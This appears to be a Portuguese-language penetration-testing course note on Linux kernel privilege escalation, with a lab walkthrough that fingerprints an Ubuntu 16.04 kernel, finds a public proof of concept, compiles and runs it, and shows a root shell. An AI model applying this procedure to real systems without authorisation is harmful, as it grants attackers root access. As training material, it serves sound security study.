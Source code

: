 Existem exploits de nível de kernel para uma variedade de versões do kernel Linux. Um exemplo muito conhecido é o [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). Eles aproveitam vulnerabilidades no kernel para executar código com privilégios de root. É muito comum encontrar sistemas vulneráveis ​​a exploits de kernel.

Pode ser difícil controlar sistemas legados, e eles podem ser excluídos de patches devido a problemas de compatibilidade com certos serviços ou aplicativos.

A escalada de privilégios usando um exploit de kernel pode ser tão simples quanto baixar, compilar e executar. Alguns desses exploits funcionam imediatamente, enquanto outros exigem modificação. Uma maneira rápida de identificar exploits é emitir o comando `uname -a`e pesquisar no Google pela versão do kernel.

## Exemplo de exploração do kernel

Vamos começar verificando o nível do Kernel e a versão do sistema operacional Linux.

```shell-session
NycolasES6@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```shell-session
NycolasES6@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

Podemos ver que estamos no Linux Kernel 4.4.0-116 em uma caixa Ubuntu 16.04.4 LTS. Uma rápida pesquisa no Google por `linux 4.4.0-116-generic exploit`aparece com [este](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Em seguida, baixe-o para o sistema usando `wget`ou outro método de transferência de arquivo. Podemos compilar o código do exploit usando [gcc](https://linux.die.net/man/1/gcc) e definir o bit executável usando `chmod +x`.

```shell-session
NycolasES6@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Em seguida, executamos o exploit e esperamos ser colocados em um shell root.

```shell-session
NycolasES6@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Por fim, podemos confirmar o acesso root à caixa.

```shell-session
root@htb[/htb]# whoami

root
```
































